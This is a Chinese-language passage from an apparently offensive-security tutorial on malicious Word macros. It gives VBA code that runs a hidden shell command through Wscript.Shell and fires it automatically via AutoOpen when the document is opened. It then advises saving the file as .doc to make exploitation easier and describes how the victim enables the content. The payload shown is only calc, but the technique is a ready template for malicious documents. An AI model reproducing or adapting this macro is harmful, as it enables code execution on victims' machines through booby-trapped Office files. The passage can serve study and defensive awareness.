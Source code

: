 默认代码是由函数 Sub MacroAttack() 组成，End Sub 是结尾，单引号是注释。更多语法见 [Visual Basic conceptual topics](https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/visual-basic-conceptual-topics)。

如果想用户打开文档就自动执行宏，可以使用 `AutoOpen()`，打开文档后包含在内的表达式都会执行。至于说先定义 `AutoOpen()` 在里面调 `MacroAttack` 最后再定义 `MacroAttack` 会不会出现找不到这个函数，这个不用担心，都可以执行。

```plaintext
Sub MacroAttack()
  ' 定义变量 payload，类型为 String
    Dim payload As String

  ' 赋值字符串 calc
    payload = "calc"

  ' 将 payload 变量字符串作为命令运行
    CreateObject("Wscript.Shell").Run payload, 0
End Sub


Sub AutoOpen()
  MacroAttack
End Sub
```

编写完宏可以在代码编辑器中“文件 -> 保存”，或者直接在文档中保存文件都可以，文件后缀选择 doc、docm、dotm 其中之一（也可以提前创建好文件再写宏）。docm、dotm 在 Windows 11 默认找不到应用打开，不利于利用，最好选 doc 这样默认情况使用 Word 打开会很方便。

打开文档后会提示安全警告。

![安全警告 - 宏已被禁用.png](assets/1708583825-c040b1ba0dcda38358c98aa091a7afee.png)

点击“启用内容”，宏 `AutoOpen()` 会被执行。

![宏执行过程.gif](assets/1708583825-3881e65d72186e1e2bb3af8b354c1663.gif)
